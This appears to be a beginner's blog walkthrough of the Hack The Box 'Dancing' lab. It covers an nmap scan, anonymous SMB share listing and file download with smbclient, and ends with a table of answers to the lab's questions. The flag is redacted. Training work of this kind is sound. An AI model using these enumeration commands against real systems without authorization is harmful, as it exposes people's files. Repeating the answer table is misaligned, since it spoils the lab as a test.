 # 🕺 Hack The Box – Dancing Walkthrough

Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀

---

## 🔧 Step 1: Connect to Hack The Box

First, connect your system to the HTB VPN using the `.ovpn` config file.

```bash
sudo openvpn htb.ovpn
```

Wait for the message:
`Initialization Sequence Completed`

---

## 🎯 Step 2: Get the Target IP

Click **Spawn Machine** on the HTB site to get the target IP.
Example IP:

```
10.129.22.153
```

---

## 🔍 Step 3: Scan with Nmap

Use Nmap to find open ports and running services:

```bash
nmap -A 10.129.22.153
```

### Key Results:

- Port 135 – msrpc
- Port 139 – netbios-ssn
- Port 445 – microsoft-ds (SMB)

This confirms SMB is running on the target.

---

## 📦 Step 4: What Is SMB?

**SMB (Server Message Block)** is a protocol used to share files and printers over a network — mostly on Windows systems.

---

## 🧰 Step 5: Install smbclient

`smbclient` lets us access SMB shares from the terminal.

Install it:

```bash
sudo apt update
sudo apt install smbclient
```

---

## 📂 Step 6: List Available Shares

Use `smbclient` to list the shares:

```bash
smbclient -L \\\\10.129.22.153\\ -N
```

### Output:

```
ADMIN$
C$
IPC$
WorkShares
```

We’ll explore `WorkShares` — the only one that might be accessible.

---

## 🔓 Step 7: Access WorkShares

```bash
smbclient \\\\10.129.22.153\\WorkShares -N
```

Then list the contents:

```bash
ls
```

Output:

```
Amy.J
James.P
```

---

## 📁 Step 8: Explore & Download Files

### 1. Get worknotes from Amy.J

```bash
cd Amy.J
ls
get worknotes.txt
```

### 2. Get the flag from James.P

```bash
cd ..
cd James.P
ls
get flag.txt
exit
```

---

## 📜 Step 9: Read the Flag

```bash
cat flag.txt
```

Output:

```
<FLAG REDACTED>
```

---

## ✅ Recap

| Question                             | Answer               |
| ------------------------------------ | -------------------- |
| What does SMB stand for?             | Server Message Block |
| What port does SMB use?              | 445                  |
| What is the service on port 445?     | microsoft-ds         |
| What flag lists shares in smbclient? | -L                   |
| How many shares are listed?          | 4                    |
| Which share is accessible?           | WorkShares           |
| Command to download a file?          | get                  |
| Final flag?                          | <FLAG REDACTED>      |

---

## 🎉 Conclusion

This box teaches basic SMB enumeration and shows how anonymous access to file shares can lead to information leaks.

Perfect starting point for anyone new to penetration testing.

---
